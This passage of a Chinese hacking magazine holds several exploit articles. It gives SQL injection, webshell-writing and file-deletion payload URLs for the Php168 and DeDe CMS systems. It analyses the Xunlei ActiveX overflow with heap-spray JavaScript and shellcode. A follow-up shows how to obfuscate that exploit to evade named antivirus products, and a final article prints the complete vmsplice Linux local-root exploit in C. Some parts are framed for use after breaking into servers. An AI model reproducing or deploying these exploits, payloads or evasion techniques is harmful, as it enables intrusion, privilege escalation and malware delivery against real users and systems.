    $msg=str_replace('>','&gt;',$msg);
    return $msg;
}
```

伪造 HTTP_REFERER 的方法很多，这里我们利用 HTTP_REFERER 的概念，即“链接到当前页面的前一页面的 URL 地址”。通过前面分析，我们知道 `$string` 的获取取决于 HTTP_REFERER 中的“&allid=”后面的数据，与前面的地址无关，所以我们就可以本地建一个内容如下的 html 文件，打开后给 URL 地址后面增加如下注入语句，最后打开链接，如图26、图27所示。最后使用 MySQL 语句“select 0x3231323332663239”获得 password 的前 8 位字符为“21232f29”，再把“1-1+hex(substring(password,1,8))”改为“1-1+hex(substring(password,9,8))”获得第 2 个 8 位字符串，与取二次 hex 的情况类似。

```html
<a href="http://localhost/php168/fenlei/jsshow.php">fenlei/jsshow.php</a>
<!-- href 值为需要注入的url，根据实际修改 -->
?&allid=9999,5)/**/union/**/select/**/9999,2222,3,4,5,6,1-1+hex(substring(password,1,8)),8,9,10,...
/**/from/**/p8_members/**/where/**/uid=1/*
```

但是其他字段的 hex 值就可能包含 `ef` 或 `AF` 字符，这时我们可以取二次 hex，于是第 1 个字段改为“再次 hex(hex(substring(password,1,4)))”就可以捕获 username 等字段值了。

## 0Day 及其他漏洞

PHP 语言是很强大的，但这就像双刃剑，把握不好反而对自己构成威胁，像前面提到的 `extract`，还有下面的 `fputs` 读写文件、`$_SERVER` 获取环境变量等。

### 漏洞1

Php168 的 `inc/foot.php` 文件存在严重漏洞，导致直接写马，几乎影响到所有的 Php168 系统，如整站系统、分类信息系统、全功能版等。利用：代码如下：

```php
require(html("foot",$foot_tpl));
if($makehtml==1){
    if($morehtml){
        ob_end_flush();
        @include(PHP168_PATH."cache/MakeHtml.php");
    }
    eval("\$chdb[htmlname]=\"$chdb[htmlname]\";");
    $htmldir=dirname("$chdb[htmlname]");
    if(!is_dir(PHP168_PATH."$chdb[path]/$htmldir/")){
        makepath(PHP168_PATH."$chdb[path]/$htmldir/");
    }
    write_file(PHP168_PATH."$chdb[path]/$chdb[htmlname]",$content);
}
```

因为变量 `$makehtml`、`$morehtml`、`$chdb[htmlname]`、`$chdb[path]`、`$content` 等可以外部提交，所以可将 `$content` 写入 `$chdb[htmlname]` 指定文件中。由 `foot.php` 本身未包含基础全局函数文件，只能通过其他页面调用。全功能版可直接使用 `index.php` 页面，利用链接如下：

```php
/search.php?makehtml=1&chdb[htmlname]=test.php&content=<?copy($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);?>
```

### 漏洞2

Php168 的 `member/list.php` 文件存在删除任意文件漏洞。

利用问题出在 `make_more_article_html` 函数上，分析略，给出利用链接：

```text
/member/list.php?step=2&file=1.yyy&aidDB[1]=999))%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,0x245F4745545B66696C655D,52%23&Type=delete
```

其中“0x245F4745545B66696C655D”为“$_GET[file]”的 hex 值，`file` 为要删除的文件名。此漏洞需要登录用户，还需要 `/php168/config.php` 中的“$webdb['NewsMakeHtml']”值为“1”，即生成文章列表页与内容页的真静态网页。请求该链接后，虽然提示“你没权限操作此文”，但是实际已经删除了根目录下的 `1.yyy` 文件。

### 漏洞3

`jsarticle.php` 文件的变量 `$rows` 未过滤。尽管出现在 `limit` 之后尚无法直接利用，但该版本多处未过滤的 `$rows` 仍可能被利用，代码如下：

```php
$fid=intval($fid);
$rows>0 || $rows=7;
$leng<0 || $leng=60;
if($type=='hot'||$type=='com'||$type=='new'||$type=='lastview'||$type=='like'){
    $SQL=" WHERE $SQL ORDER BY $ORDER DESC LIMIT $rows";
    $which='*';
    $listdb=list_article($SQL,$which,$leng);
}
```

漏洞3：DeDe 的 `member/passport/` 目录中 `pp_dederemote_asp.php`、`pp_dederemote_new.php` 文件的 `Z_GetIP` 函数使用 `$_SERVER` 获取 IP 时未过滤，导致可以伪造 IP 进行注入。利用为了提高我们读代码能力，做如下分析。

```php
$keys = Array('userid','userpwd','signstr','newuserpwd','action','email','sex','uname','exptime');
foreach($keys as $v) $$v = '';
// 限定了可以外部获取的变量名为数组 $keys 的键名，如 $userid 等，并初始化为空
$datas = explode('&',$rmdata);
// 将提交的 $rmdata 用 “&” 分割成数组 $datas
foreach($datas as $ky){
  $nkys = explode('=',$ky); // 再用 “=” 将数组 $datas 中每个键值分割成数组 $nkys
  if(in_array($nkys[0],$keys) && isset($nkys[1]))
    ${$nkys[0]} = urldecode($nkys[1]);
  // 如果 $nkys[0] 键名在数组 $keys 中，并且 $nkys[1] 非空时，给变量赋值
}
```

举例：如果外部提交“?rmdata=userid=1%26action=treter%26myvar=ooo”后，会取得如下变量 `$userid=1`，`$action=treter`，因为 `myvar` 不在 `$keys` 中，所以无法获得 `$myvar` 变量。要成功利用此漏洞还必须突破证书验证限制，代码如下：

```php
$testSign = substr(md5($userid.$cfg_cookie_encode),0,24);
if($testSign!=$signstr){
  echo '证书验证失败!';
  exit();
}
```

前面提到 DeDe 不允许外部提交“cfg_”开头的变量，所以我们必须获取 `$cfg_cookie_encode` 值。登录会员中心，发表新文章，在页面源码中搜索“dede_fieldshash”，即可获得 `MD5($dede_addonfields,$cfg_cookie_encode)` 的值，因为 `$dede_addonfields` 为空，所以也是 `MD5($cfg_cookie_encode)` 的值，如图28所示。一般 DeDe 安装后，`$cfg_cookie_encode` 默认长度为 10，格式为：AaAAa1111A，其中 A—1 位大写字母，a—1 位小写，1—1 位数字。一旦爆破出 `$cfg_cookie_encode` 即可通过证书验证，注入利用略。

图28

最后我们总结一下本文的要点：为了防范 PHP 字符编码绕过漏洞，建议设置 `character_set_client` 为“binary”；变量统一使用单引号引入 SQL 语句，以防范数字型注入漏洞；慎用 `extract` 或“$$”，虽然增加了代码的灵活性，但是在使用变量前必须进行初始化，否则可能被恶意提交。对全局的变量参数等不允许用户从外部提交的数据必须进行过滤限制；了解 PHP、MySQL 会自动进行类型转换，成功则返回转换结果，失败则返回 0，只有这两种情况，同时不会给出错误提示；以及 PHP 字符串转换成数字的规则。使用 `eval`、`fwrite`、`include` 等能够操作文件、执行代码的函数以及通过 `$_SERVER` 获取环境变量时，必须进行严格过滤，以防止对安全构成威胁。

其实漏洞发掘的方法很多，本文涉及的仅仅是冰山一角，关键是要保持清晰的思路和灵活的方法，希望本文对大家能起到抛砖引玉的作用。

适合读者：漏洞爱好者、溢出爱好者

前置知识：缓冲区溢出基本原理

# 迅雷 PPLAYER.DLL ActiveX 控件溢出漏洞剖析及利用

文／图 xyz123

转眼进入奥运年，趁新年之际咱们先聊几句杂话。回首 2007 年暴出的安全漏洞，不难看出这样一个现象：2006 年还流行的 Office 与 WinRAR 等软件漏洞，由于遇到技术（FileFuzz、反汇编等）瓶颈而数量明显减少。各种 ActiveX 控件漏洞，及其与 IE 相结合的利用方式却似乎正成为一个研究趋势。我们可以理解为这是一种退而求其次的趋势，但如果能把 ActiveX 漏洞这一套理解得很清晰，其实也是可以学到不少东西的。

本文的分析对象是国内流行 P2P 下载软件迅雷的一个溢出漏洞。关于迅雷软件的使用及特点，这里就不再浪费篇幅。文章主要内容有：漏洞简介、调试剖析、利用详解和小结。下面我们进入正题，分析若有不当之处，请大家多多指正。

不少安全站点上公布了该漏洞，但内容基本类似，nsfocus 上的公告如图1所示。根据公告，我们大概知道了漏洞是由于迅雷 5.7.4.401 的 `PPLAYER.DLL_1_WORK` ActiveX 控件中 `FlvPlayerUrl` 函数对输入参数的过滤不足引起的。

该控件封装在 `pplayer.dll` 里。公告没有告诉我们更多的漏洞细节（如是堆栈溢出还是堆溢出、如何触发等），但给出了相关测试代码 PoC。我们要做的事情，就是利用这个 PoC 进行调试跟踪，进而理清漏洞的来龙去脉。

## 漏洞简介、测试剖析

直接将公告里给出的 PoC 代码保存到记事本中，保存为 `test.htm`，并通过 IE 来进行测试。本文测试环境是 Windows XP SP2 + IE6。关于这个 PoC，测试前有几点需注意。

- 1. 测试方式。如果测试仅仅在本机进行，则直接用 IE 打开该文件即可；而实际利用时，则需要把构造好的 `.htm` 页面放在可控的 Web 服务器上。
- 2. Cookie 判断。代码首先判断浏览器是否提交了 Cookie，提交则表示之前已经打开过页面，而未提交才执行后面的代码。关键代码如下：

```javascript
var set_cookie = document.cookie.indexOf("3Ware=");
// cookie变量名为3Ware
if (set_cookie == -1) {
  // 第1次打开该文件，创建Cookie
  document.cookie = "3Ware=1; expires=" + expires.toGMTString();
  ...
}
```

Cookie 文件名为“osuser@path[n].txt”，osuser 为系统当前用户，n 为 1、2 等整数。

图1

然而，要对一个文件多次测试的话，应该每次将系统当前用户的 Cookies 目录下的内容清空，或者干脆把 PoC 中这段 Cookie 判断代码去掉。

- 3）IE 利用代码。这部分代码还是采用了传统的内存扩充方法来实现，具体分析我们放在后面利用部分进行。
- 4）触发代码。在前面做好内存扩充后，PoC 中的触发代码如下：

```javascript
var size_buff = 1070;
// 注意，为什么是1070呢？后面分析
var x = unescape("%0c%0c%0c%0c%0c");
// 0c本身对应 or al,0Ch 指令
while (x.length < size_buff) x += x;
gl.FlvPlayerUrl = x;
```

对 PoC 预分析完毕，下面进行测试。我测试的一般过程是：先看整体现象，再跟踪中间细节。使用 IE 打开 test.htm（如果你的默认浏览器为 IE，则双击 test.htm 即可），片刻之后 IE 直接挂掉。我没有仔细分析 PoC 里这段 ShellCode 的功能，但 IE 挂掉的现象至少说明漏洞的确触发了。

下面进行调试分析，为了使得异常发生，将上面的触发脚本作如下修改：

```javascript
// var x = unescape("%0c%0c%0c%0c%0c");
var x = unescape("%62%62%62%62");
// 这句是测试时我替换的


```

保存为 test1.htm，用 IE 打开 test1.htm，弹出如图2所示的提示。
在点击“是”之前，先打开 Windbg，attach 到 IE 进程上，然后按 F5 运行，直到遇到如图3所示的异常。按 Alt+F7，查看异常代码附近的一些指令，如图4所示。
分析过 Office 漏洞的朋友可能一眼就能看出，这是内存中的 C++ 对象指针被覆盖（22d44617 指令中的 eax），导致后面利用该指针调用虚函数（22d4461a 指令）时，可能执行任意指令。22d44611 指令中的 esi=028d9660 就是对象指针 eax 的保存地址，通过“d esi”观察这片内存，如图5所示。
这里覆盖成了 PoC 中修改的数据 62H，继续往前搜索，发现这片数据的开始地址为 29b8cd4。我们要找出写入这些数据的代码，才可能找出漏洞起因。然而打开该 test1.htm 的开始阶段，这片内存还没被分配，更不要说监视对它的读写操作了。遇到这种情况，我一般是通过摸索测试，使代码先走到 29b8cd4 已可读写，但还未写入我们填充的数据的状态时停下来。这是一个多次“下断点、测试、逆向”的循环分析过程，这里就不多啰嗦了，直接给出整理后的分析过程。

删除 Cookies 目录中的 cookie 文件，重新开始调试。再次出现图2中提示框时，设置“bp loadlibrarya d”后 F5，使得 loadlibrarya 在被调用第 14 次时断了下来。然后设置“bp globalalloc”来监视这个内存分配函数，Shift+F11 若干次，直到发现 29b8cd4 附近内存可读写为止。设置“ba w4 29b8cd4”监视数据 copy，F5 继续运行。不久，在 _strcpy 函数中的某处停了下来。这个 _strcpy 函数不是 msvcrt 中的，而是 xplayer.dll 中自定义的，入口地址是 22d53240。

再次重新启动程序，在第 14 次断下 loadlibrarya 后，设置“bp 22d53240”，然后每次停下来后，通过“bp poi(esp+8)”和“bp poi(esp+4)”来观察要 copy 的数据是不是 PoC 中输入的 626262……最后，发现断点两三次停下之后，就出现了我们想要的数据 copy。这些数据是从哪里来的呢？往前回溯不难发现，它们都是从 pplayer.dll 中调用 xplayer.dll 中的虚函数时作为参数传送过来的。

为什么图5中会出现 8 字节的 0 呢？经过分析，前 4 字节修改过程为：

```asm
22D45AFE  lea  edi, [esi+0BCh]
22D45B04  push dword ptr [edi]
...
22D45B06  mov  dword ptr [esi+205Ch], 1
; 覆盖前4字节为1
22D45B10  push offset s_XplayerPlay_3
; "XPlayer:: Player %d, Event : Fire_OnO..."
22D45B15  call sub_22D4D11A
22D448B6  and dword ptr [esi+205Ch], 0
; 覆盖29b924为0
22D448BD  mov eax, [ecx]
22D448BF  call dword ptr [eax+10h]
22D448C2  and dword ptr [edi], 0
22D448C5  mov ecx, esi
22D448C7  call sub_22D439C
```

后 4 字节修改过程为：

```asm
22d4410c  call xplayer!DllUnregisterServer+0x4e53
22d44111  mov eax, dword ptr [esp+14h]
22d44115  pop ecx
22d44116  pop ecx
22d44117  mov dword ptr [esi+2060h], eax
; 正好把后4字节写为0
22d4411d  xor eax, eax
```

此外，图2中 028d9664 之前的 62H 字节数为 1064，经测试，只要数据输入长度超过 1070，无论超过多少，最后触发情况都一样。

OK，现在我们可以总结一下漏洞起因了：pplayer.dll 中接收 FlvPlayerUrl 属性时候未检测长度，导致在 xplayer.dll 中调用 _strcpy 函数进行 copy 的时候，一个 C++ 对象指针被覆盖。

## 利用详解

分析了漏洞起因，我们来着重讨论下漏洞的利用。不只针对单个漏洞，而是归纳 ActiveX 这类漏洞的利用方法，总体我们要考虑下列几个方面。

- 1）利用代码（含 ShellCode）的存放位置。

ActiveX 控件的溢出漏洞，利用时往往考虑与 IE 相结合，但分两种情况。一种是 IE 中启动 ActiveX 控件对应的应用程序（如 IE 直接启动 Acrobat Reader），如果应用程序调用该 ActiveX 解析某格式文件时出现漏洞，那么漏洞的主要利用代码放在这个格式的特制文件里（如 pdf），而网页里只放几句简单的跳转脚本；另一种是 IE 中仅调用 ActiveX 控件而不启动程序，那么漏洞的主要利用代码就放在特制的 HTML 页面里。本文这个漏洞属于第二种，所以后面的内容也就只分析这种情况。

- 2）内存扩充（Heap Spray）。通过 JavaScript 进行内存扩充，是利用溢出漏洞制作网页木马的惯用方法，方法如图6所示。

| 块1 | 块2 | 块n |
|---|---|---|
| Nop...SC | ...... | Nop...SC |

图6

每个内存块都由填充数据（如 0c）和 ShellCode（简称 SC）组成，块与块之间不一定是物理连续的，但却是从低到高地址依次分配过来的。JavaScript 中，内存扩充代码相对固定，大致如下（无先后之分）。

```javascript
var helloworld2Address = 0x0c0c0c0c;
// 0c0c0c0c是地址也是OR AL,0C指令
var shellcode = unescape("%u...");
// ShellCode
var hbshelloworld = 0x100000;

var payLoadSize = shellcode.length * 2;
// 计算ShellCode长度
var spraySlideSize = hbshelloworld - (payLoadSize + 0x38);
// 每块需填充0c的字节数
var spraySlide = unescape("%u0c0c%u0c0c");

spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (helloworld2Address - 0x100000)/hbshelloworld;

memory = new Array();
// 按照Windows堆分配机制动态分配内存块
for (i = 0; i < heapBlocks; i++) {
    ...
    memory[i] = spraySlide + shellcode;
    // 对每个内存块做相同的填充
}

function getSpraySlide(spraySlide, spraySlideSize)
// getSpraySlide 的实现
{
    while (spraySlide.length * 2 < spraySlideSize)
    {
        spraySlide += spraySlide;
    }

    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
```

具体到这个漏洞，我测试使用启动计算器的 ShellCode，如图7所示。

```c
unsigned char shellcode[] =
"\x90\x60\x6a\x59\xEB\x19\x5E\x80\x36\xAA\x46\xE2\xFA\xEB\x05\xE8\xE2\xFF\xFF\xFF...";


```
图7

这种形式的 ShellCode 显然不能用于 JavaScript 中，需要作适当的变换，相关的 C 代码如下。

```c
int i;
char fix[] = "%u";
for(i = 0; i < sizeof(shellcode) - 1; i = i + 2)
{
    printf("%s", fix);
    printf("%02x", shellcode[i + 1]);
    printf("%02x", shellcode[i]);
}


```

对于迅雷这个漏洞，如果我们填充对象指针为 0c0c0c0c，而 0c0c0c0c 地址上的内容也是 0c0c0c0c，就可以使得虚函数调用时 eip 指向了 0x0c0c0c0c 这个地址。“OR AL,0C”等效于 NOP 指令，所以在这片内存中一直执行下去的话，最后可以执行到我们的 ShellCode。

安全焦点上有篇文章提到：因为 0x0c0c0c0c 这个地址在内存中并不高，JavaScript 分配内存就会影响到这一段。所以，如果 IE 之前访问了很多网页，特别是一些比较大的网页，就会影响到这段地址，从而导致我们 heap spray 失败，故而提倡用 Java 来分配内存。但我觉得，如果把 Java 分配地址通用性限制与目标用户实际环境不好的几率综合考虑，JavaScript 在实际应用中仍然应该是大家的首选。

- 1）IE 的安全警告。不少朋友经常说 IE 打开网页的时候，老要弹出“是否让文件运行活动内容”的安全警告。其实这是个简单的误区，实际利用时是把做好的网页放到你控制的 Web 站点上，通过 URL 访问一般是不会出现什么提示的，当然，极少数漏洞利用时例外。
- 2）替换 ShellCode。网上公布的 PoC 中的 ShellCode，有时由于某种原因，到我们机器上就不能正常使用；或者它的功能本来就不满足我们的要求。为此，我们需要替换成自己的 ShellCode。作为一个真正的漏洞利用者，平时存储一些常用的 ShellCode 是很好的习惯，免得每次都临时找。

这段代码直接把屏幕上输出的内容 copy 到 JavaScript 中，注意 ShellCode 中间不要有 0d、0a 这样的字符。

整理清楚上面几点，写 Exp 就是相当简单的事情了。我把修改后的 test2.htm，以及 ShellCode 转换代码都附在了光盘中。从浏览器访问 IIS 中的 test2.htm 的情况如图8所示。
图8

由于时间关系，我分析测试环境中没有杀毒软件，实际上 McAfee、Norton 等杀软都杀这个漏洞的 PoC。脚本的免杀处理现在看来比较困难，这个问题我们在后面的文章中会专门分析。

## 小结

本文中我和大家一起分析了迅雷 PPLAYER.DLL ActiveX 控件溢出漏洞的漏洞起因及利用方法，希望对感兴趣的朋友有所帮助。同时，文中不当之处，真诚希望大家能积极指出。文中采用的方法技术并没有什么高深之处，更多的是对相关知识进行总结。所以还是那句话，只要把基础打扎实了，很多技术问题都能慢慢解决。

适合读者：漏洞爱好者

前置知识：VC

# 免杀迅雷 PPLAYER.DLL ActiveX 控件溢出漏洞
文／图 Xy123

2008年第1期《迅雷 PPLAYER.DLL ActiveX 控件溢出漏洞剖析及利用》一文中的 Exp 受被 McAfee、Norton、卡巴斯基以及 NOD32 查杀。由于时间关系，当时没来得及做免杀修改，这里向大家表示歉意。下面本文就用简短篇幅解决该漏洞利用页面的免杀问题。

现在各主流杀软对 IE 网马的查杀规律其实比较明了，主要集中在下列几个地方。

- 1）ShellCode，如“var sc="%u6a90%u596a%u09eb%u805e......"”，SC 一般都是以 UNICODE 形式给出的，自然是重点查杀对象，需要作相应的变形。
- 2）内存扩充代码，这部分代码相信大家比较熟悉，用 JavaScript 写的，一般整段代码都作为查杀对象。如果能从中挑出一部分代码作变形的话，躲避查杀也是有可能的。变形的方法之一就是通过 String.fromCharCode 函数来回切换。
- 3）漏洞特征点，例如调用 ActiveX 的代码。

```javascript
sc="%ufd12%ua43%u91e7%ufdca...";
var out = "";
for(var i=0; i<sc.length; i++){
  out += String.fromCharCode(sc.charCodeAt(i) - 4);
}
document.write(out);


```

其中，document.write 的输出如图1所示，直接把这个结果粘贴到新的 Exp 中即可。
图1

二是内存扩充变形代码为：

```javascript
var sc = "...";
spraySlide = spraySlide.substring(0, spraySlideSize/2);
var out2 = "";
for(var i=0; i<sc.length; i++){
  out2 += String.fromCharCode(sc.charCodeAt(i) - 3);
}
document.write(out2);
```

以这个迅雷漏洞为例，被查杀代码为：

```javascript
var size_buff = 1070;
var x = unescape("%0c%0c%0c%0c");
while (x.length < size_buff) x += x;
gl.FlvPlayerUrl = x; // 尤其是这一句
```

OK，具体到这个漏洞免杀，通用的变形代码只需要前2点就能解决。

一是将 ShellCode 变形为如下代码：

```javascript
var sc = "%u6a90%u596a%u09eb%u805e%uaa36...";


```

同样，把 document.write 输出结果拿来用即可。修改后的 Exp 文件 exp_ms.htm，以及两部分变形代码 trans1.htm 和 trans2.htm，我已随文提供。其中，exp_ms.htm 仍然是打开 calc.exe 的功能，在 McAfee、Norton、Kaba 以及 NOD32 环境测试均可通过。最后，针对这个漏洞的免杀，欢迎大家测试后提出意见，并可到黑防论坛与我交流！

适合读者：入侵爱好者、溢出爱好者

前置知识：Linux，缓冲区溢出基本原理
## Linux内核 Vmsplice 提权漏洞利用与分析

文／图 西邮猎手（王聪）

2008年2月9日，一个 Linux 内核的本地提权漏洞曝光，任何权限的用户都可以借此漏洞提升为 Root 用户。此漏洞影响的内核版本为 2.6.17~2.6.24.1，现在较新的 Linux 发行版本几乎都在漏洞的利用范围之内，连我的 RHEL5 也不例外。此漏洞是由于 vmsplice 系统调用没有对用户传递的参数的合法性进行检查造成的。

```text
[+] page: 0 × 4020
[+] mmap: 0 × 1000 - 0 × 2000
[+] page: 0 × 1000
[+] mmap: 0xb7fad000 - 0xb7fdd000
[+] root
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@localhost ~]#
```

看见没有，uid 和 gid 都是零了，说明我现在的身份是 Root。

## 漏洞利用

这个漏洞是一个本地提权漏洞，所以前提是要能登录一台 Linux 主机。我们可以入侵一台 Linux 的 Web 服务器，得到 Apache 用户权限，然后上传 POC 程序，编译并运行后得到 Root 权限。即便是一些通过 SSH 连接的共享主机，我们也能提升为 Root 权限。

下面是我在自己的机器上的测试过程。我的系统的内核版本为 2.6.18-8.el5，正好是受影响的内核。我们把利用代码编译后运行一遍，看看能否成功。

```text
[wangcong@localhost ~]$id
uid=503 gid=503 groups=503
[wangcong@localhost ~]$gcc -o exp exp.c
[wangcong@localhost ~]$./exp

===============================
Linux vmsplice Local Root Exploit
By qaaz

[+] mmap: 0 × 0 - 0 ×1000
[+] page: 0 × 0
[+] page: 0 × 20
[+] mmap: 0 × 4000 - 0 × 5000
[+] page: 0 × 4000
```

## 漏洞分析

接下来我们一起来看一下这个漏洞的 POC，并结合 Linux 的内核源码，分析产生漏洞的原因。

在分析漏洞之前，我们先看看 Linux 内核邮件列表给出的补丁，这样我们就大概知道漏洞出现在哪一个内核文件里了。

```diff
diff --git a/fs/splice.c b/fs/splice.c
index 14e2262..80beb2b 100644
--- a/fs/splice.c
+++ b/fs/splice.c
@@ -1237,6 +1237,11 @@ static int get_iovec_page_array(const struct iovec __user *iov,
    if (unlikely(!base))
        break;
+   if (!access_ok(VERIFY_READ, base, len)) {
+       error = -EFAULT;
+       break;
+   }
}
```

从上面的补丁文件我们知道，内核 fs 目录中的 splice.c 文件存在漏洞，而补丁增加的代码是用来判断传递的变量是否合法的。

## 漏洞 PoC 代码与分析

这个漏洞的 POC 代码如下，比较重要的地方我做了注释，这样我们分析起来会更容易。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <malloc.h>
#include <limits.h>
#include <signal.h>
#include <unistd.h>
#include <sys/uio.h>
#include <sys/mman.h>
#include <asm/page.h>
#define __KERNEL__
#include <asm/unistd.h>

#define PIPE_BUFFERS 16
#define PG_compound 14
#define uint unsigned int
#define static_inline static inline __attribute__((always_inline))
#define STACK(x) (x + sizeof(x) - 40)

struct page {
    unsigned long flags;
    int count;
    int mapcount;
    unsigned long private;
    void *mapping;
    unsigned long index;
    struct { long next, prev; } lru;
};

void exit_code();
char exit_stack[1024 * 1024];

void die(char *msg, int err) {
    printf(err ? "[-] %s: %s\n" : "[-] %s\n", msg, strerror(err));
    fflush(stdout);
    fflush(stderr);
    exit(1);
}

#if defined(__i386__)
/* 32位的系统 */
#ifndef __NR_vmsplice
#define __NR_vmsplice 316
#endif
#define USER_CS 0x73
#define USER_SS 0x7b
#define USER_FL 0x246

static_inline
void exit_kernel()
/* 由于内核函数发生了溢出，所以要通过这个函数来恢复用户栈，并跳转到 Ring3 级别 */
{
    __asm__ __volatile__(
        "movl %0, 0x10(%%esp) ;"
        "movl %1, 0x0c(%%esp) ;"
        "movl %2, 0x08(%%esp) ;"
        "movl %3, 0x04(%%esp) ;"
        "movl %4, 0x00(%%esp) ;"
        "iret"
        :
        : "r" (USER_SS), "r" (STACK(exit_stack)), "r" (USER_FL),
          "r" (USER_CS), "r" (exit_code)
    );
}

static_inline
void *get_current()
/* 将 esp 的内容与 8191(0x1fff) 的反码按位进行与操作，之后再把结果赋值给 curr */
{
    unsigned long curr;
    __asm__ __volatile__(
        "movl %%esp, %%eax ;"
        "andl %1, %%eax ;"
        "movl (%%eax), %0"
        : "=r" (curr)
        : "r" (~8191)
    );
    return (void *)curr;
}

#elif defined(__x86_64__)
/* 64位的系统 */
#ifndef __NR_vmsplice
#define __NR_vmsplice 278
#endif
#define USER_CS 0x23
#define USER_SS 0x2b
#define USER_FL 0x246

static_inline
void exit_kernel()
/* 返回 Ring3 级别 */
{
    __asm__ __volatile__(
        "swapgs ;"
        "movq %0, 0x20(%%rsp) ;"
        "movq %1, 0x18(%%rsp) ;"
        "movq %2, 0x10(%%rsp) ;"
        "movq %3, 0x08(%%rsp) ;"
        "movq %4, 0x00(%%rsp) ;"
        "iretq"
        :
        : "r" (USER_SS), "r" (STACK(exit_stack)), "r" (USER_FL),
          "r" (USER_CS), "r" (exit_code)
    );
}

static inline
void *get_current()
/* 把 gs 寄存器的值赋给 curr。gs 寄存器保存了当前任务的 task_struct，task_struct 中记录了 uid 和 gid */
{
    unsigned long curr;
    __asm__ __volatile__(
        "movq %%gs:(0), %0"
        : "=r" (curr)
    );
    return (void *)curr;
}

#else
#error "unsupported arch"
#endif

#if defined(_syscall4)
#define __NR_vmsplice __NR_vmsplice
_syscall4(
    long, _vmsplice,
    int, fd,
    struct iovec *, iov,
    unsigned long, nr_segs,
    unsigned int, flags)
#else
#define _vmsplice(fd, io, nr, fl) syscall(__NR_vmsplice, (fd), (io), (nr), (fl))
#endif

static uint uid, gid;

void kernel_code()
/* 遍历 task_struct，找到保存用户 uid 和 gid 的位置，并将它们改为 0，这样，当前用户就具有 Root 权限了 */
{
    int i;
    uint *p = get_current();
    for (i = 0; i < 1024 - 13; i++) {
        if (p[0] == uid && p[1] == uid &&
            p[2] == uid && p[3] == uid &&
            p[4] == gid && p[5] == gid &&
            p[6] == gid && p[7] == gid) {
            p[0] = p[1] = p[2] = p[3] = 0;
            p[4] = p[5] = p[6] = p[7] = 0;
            p = (uint *)((char *)(p + 8) + sizeof(void *));
            p[0] = p[1] = p[2] = ~0;
            break;
        }
        p++;
    }
    exit_kernel();
}

void exit_code()
{
    if (getuid() != 0)
        die("wtf!", 0);
    printf("[+] root\n");

    putenv("HISTFILE=/dev/null");
    execl("/bin/bash", "bash", "-i", NULL);
    die("/bin/bash", errno);
}

int main(int argc, char *argv[])
{
    int pi[2];
    size_t map_size;
    char *map_addr;
    struct iovec iov;
    struct page *pages[5];

    uid = getuid(); /* 得到当前用户的 uid */
    gid = getgid(); /* 得到当前用户的 gid */
    setresuid(uid, uid, uid);
    setresgid(gid, gid, gid);

    printf("--------------------------------------\n");
    printf(" Linux vmsplice Local Root Exploit\n");
    printf(" By. qaaz\n");
    printf("--------------------------------------\n\n");

    if (!uid || !gid) /* 如果以 Root 运行此程序就退出 */
        die("!@#$", 0);

    pages[0] = *(void **)&(int[2]){0, PAGE_SIZE};
    pages[1] = pages[0] + 1;
    map_size = PAGE_SIZE;
    map_addr = mmap(pages[0], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    /* 从内存的零地址映射 */
    if (map_addr == MAP_FAILED)
        die("mmap", errno);
    memset(map_addr, 0, map_size); /* 填 0 */
    printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
    printf("[+] page: 0x%lx\n", pages[0]);
    printf("[+] page: 0x%lx\n", pages[1]);

    pages[0]->flags = 1 << PG_compound;
    /* 定义为一个复合页 */
    pages[0]->private = (unsigned long)pages[0];
    pages[0]->count = 1;
    pages[1]->lru.next = (long)kernel_code;

    /* 正常复合页的 pages[1]->lru.next 应该指向 pages[0]，这里放置了一个畸形的复合页，将 pages[1]->lru.next 指向了我们的提权代码 */
    pages[2] = *(void **)pages[0];
    pages[3] = pages[2] + 1;
    map_size = PAGE_SIZE;
    map_addr = mmap(pages[2], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);
    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);

    printf("[+] page: 0x%lx\n", pages[2]);
    printf("[+] page: 0x%lx\n", pages[3]);
    pages[2]->flags = 1 << PG_compound;
    pages[2]->private = (unsigned long)pages[2];
    pages[2]->count = 1;
    pages[3]->lru.next = (long)kernel_code;

    pages[4] = *(void **)&(int[2]){PAGE_SIZE, 0};
    map_size = PAGE_SIZE;
    map_addr = mmap(pages[4], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);
    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);

    printf("[+] page: 0x%lx\n", pages[4]);
    map_size = (PIPE_BUFFERS * 3 + 2) * PAGE_SIZE;
    map_addr = mmap(NULL, map_size, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);
    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);

    map_size -= 2 * PAGE_SIZE;
    if (munmap(map_addr + map_size, PAGE_SIZE) < 0)
        die("munmap", errno);
    if (pipe(pi) < 0) die("pipe", errno);
    close(pi[0]);

    iov.iov_base = map_addr;
    iov.iov_len = ULONG_MAX;
    /* ULONG_MAX=0xffffffff，这里将待发送数据的缓冲区长度设置为 0xffffffff */
    signal(SIGPIPE, exit_code);
    /* 当产生 SIGPIPE 信号时，执行 exit_code 函数 */
    _vmsplice(pi[1], &iov, 1, 0);
    /* 通过系统调用执行 sys_vmsplice() 函数 */
    die("vmsplice", errno);
    return 0;
}
```

